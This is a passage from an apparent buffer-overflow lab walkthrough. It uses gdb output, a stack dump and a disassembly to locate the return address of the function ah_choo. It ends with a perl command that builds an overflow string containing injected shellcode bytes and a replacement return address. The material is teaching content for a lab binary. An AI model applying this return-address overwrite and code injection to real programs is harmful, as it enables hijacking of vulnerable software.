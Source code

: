 > 0x08048cf6 in ah_choo ()<br />
> (gdb) ni<br />
> AAAAAAAAA<br />
> 0x08048cfb in ah_choo ()<br />

Then type this command:

> (gdb) x/20x $esp<br />

The contents of stack | | | |
--- | --- | --- | --- | 
0x55683638 <_reserved+1037880>:  |  0x55683650  |  0x00000000  |  0x55685ff0  |  0xf7e467d4
0x55683648 <_reserved+1037896>:  |  0xf7fba3cc  |  0x55683664  |  0x41414141  |  0x41414141
0x55683658 <_reserved+1037912>:  |  0x00000041  |  0xf7fba3cc  |  0xf7fbb898  |  0x2a031223
0x55683668 <_reserved+1037928>:  |  0x00000000  |  0xf7fd6000  |  0x00000000  |  0x08048db7
0x55683678 <_reserved+1037944>:  |  0x000010aa  |  0x0000000a  |  0x00000000  |  0x08048d0c

Still remember the location of return address of function **ah_choo()**? Just use this command in case you forgot.

> (gdb) disas ah_shoo<br />

**Dump of assembler code for function ah_shoo:**

Address | Operation | Elements in operation
--- | --- | ---
0x08048d04 <+0>:  |  sub   | $0xc, %esp
0x08048d07 <+3>:  |  call  | 0x8048cec <ah_choo>
0x08048d0c <+8>:  |  add   | $0xc, %esp
0x08048d0f <+11>: |   ret  |

**End of assembler dump.**

From the above code, we can see that function **ah_shoo()** calls function **ah_choo()** and the return address of **ah_choo()** is 0x08048d0c. Let's find 0x08048d0c in the stack frame of function **ah_choo()**. Yap it's found at the very bottom row. This return address will be manipulated later.
 
After the function **ah_choo()** was finished,, the program will directly return to the address stored on the block of return address, where in this case the return address after function **ah_choo()** was finished is 0x08048d0c. Therefore, we'll change that return address so that after calling function **ah_choo()**, the program will execute our own instruction.
 
Then, what should be changed from that return address?

We'll change that return address so that the program will be redirected to the instruction written in the code injection created previously.
 
Then, where's the starting address of our code injection? The starting address is free, we can configure it by ourselves. For example, in this case I will insert that code after the block containing return address of procedure **annyeong()**. So, the type of my string input is 52 characters (free), an address of procedure **annyeong()**, and a hexadecimal code for our code injection.

To do that, quit from GDB and type this command: 

> * perl -e 'print "61 "x32, "62 "x20, "f3 8b 04 08 ", "c7 05 04 d1 04 08 24 d8 9e 1d c7 05 00 d1 04 08 ff ff ff ff 68 f3 8b 04 08 c3"' > hex0<br />
> * ./hex2raw < hex0 > raw0<br />
